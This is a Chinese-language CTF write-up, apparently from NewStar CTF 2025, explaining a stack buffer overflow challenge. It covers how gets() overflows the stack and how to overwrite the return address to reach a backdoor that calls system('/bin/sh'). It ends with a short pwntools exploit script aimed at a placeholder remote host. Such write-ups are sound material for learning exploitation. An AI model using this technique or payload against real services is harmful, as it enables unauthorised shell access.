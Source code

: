 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2025"
---
```


# overflow

> [!INFO]
> 本题考查的是 栈溢出和对栈结构的理解

在本题开始之前，你需要先了解栈结构与栈溢出。


栈是一种典型的后进先出 <span data-desc>(Last in First Out)</span> 的数据结构，它的基本结构是栈顶<span data-desc>（rsp 寄存器的值）</span>和栈底<span data-desc>（rbp 寄存器的值）</span>。其操作主要有压栈<span data-desc> (push) </span>与出栈<span data-desc> (pop)</span> 两种操作；push 可以把寄存器里的值或者一个立即数压入栈，pop 则是把 rsp 寄存器<span data-desc>（也就是栈顶）</span>指向的值弹出给一个寄存器。

push 操作：
![图片](https://docimg3.docs.qq.com/image/AgAABTcvgiMElRDg3_dDp621aDNW2Xbb.png?w=916&h=618)
pop操作：
![图片](https://docimg8.docs.qq.com/image/AgAABTcvgiMc16ywA4RKurHz9Wq0S-AZ.png?w=1254&h=603)
> [!TIP]
    以64位为例，对于函数调用栈来说，rbp-8的位置会跟随一个“return”，return决定了函数的返回地址。
栈溢出漏洞：通过向栈中写入超出预期的数据，覆盖返回地址或其他关键数据，从而劫持程序的执行流
本题的try函数中有一个gets函数，这个函数不限制读入的长度，就会造成栈溢出
![图片](https://docimg2.docs.qq.com/image/AgAABTcvgiObWhDD76VFSKHMJh-ApWaE.png?w=1322&h=353)
本题还有一个后门函数，那接下来思路就很清晰了，先填垃圾数据把栈填满，然后把return的位置写上我们的后门函数的地址就能顺利执行system("/bin/sh")
![图片](https://docimg9.docs.qq.com/image/AgAABTcvgiNSeKqXX4VDXrJgzGwSODUP.png?w=1721&h=620)
> [!TIP]
    这里的返回地址不能直接填0x401200，会造成栈不对齐的问题，填0x401201即可
下面附上exp:
```python
from pwn import *
r=remote('ip',port)
#r=process('./overflow')
payload=b'A'*0x108+p64(0x401201)
r.sendline(payload)
r.interactive()
```